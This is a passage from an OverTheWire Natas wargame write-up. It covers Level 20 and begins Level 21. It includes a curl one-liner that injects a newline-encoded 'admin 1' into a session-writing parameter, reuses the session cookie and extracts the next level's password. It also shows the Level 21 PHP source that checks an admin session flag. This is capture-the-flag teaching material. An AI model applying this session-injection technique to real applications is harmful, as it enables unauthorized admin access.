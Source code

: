 Looks like we're in the clear. This should be an easy solve. All we have to do is send any random name and add our `admin 1` after a newline character.

We will need to send two requests to get the password. The first to set the session's variables with `mywrite`, then the second to load the page with our newly set session variables.

```bash
curl -s "http://natas20:$natas20_pass@natas20.natas.labs.overthewire.org/" -b PHPSESSID=$(curl -Is "http://natas20:$natas20_pass@natas20.natas.labs.overthewire.org/index.php?name=admin%0aadmin+1" | grep -oP 'PHPSESSID=\K[[:alnum:]-]+(?=;)') | sed "s/$natas20_pass//g" | egrep -o [[:alnum:]]{32}
```

[*Back to top*](#overthewire---natas)

## Level 21

![natas21_index.jpg](screenshots/natas/natas21_index.jpg)

[Sourcecode](http://natas21.natas.labs.overthewire.org/index-source.html):

```php
<?

function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
/* }}} */

session_start();
print_credentials();

?>
```
